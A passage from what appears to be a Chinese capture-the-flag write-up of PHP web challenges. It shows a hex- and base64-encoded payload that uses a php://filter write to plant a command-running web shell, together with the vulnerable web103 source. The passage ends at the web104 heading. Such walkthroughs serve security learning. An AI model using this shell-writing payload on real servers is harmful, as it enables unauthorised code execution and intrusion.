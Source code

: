 在php7环境下使用base64加密的shell

```
payload：
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php  #<?=`cat *`;
POST：v1=hex2bin
```

![image-20220811231429531](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202208112314622.png?x-oss-process=hzy)

# web103

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: atao
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-23 21:03:24

*/


highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>
```

同上

# web104
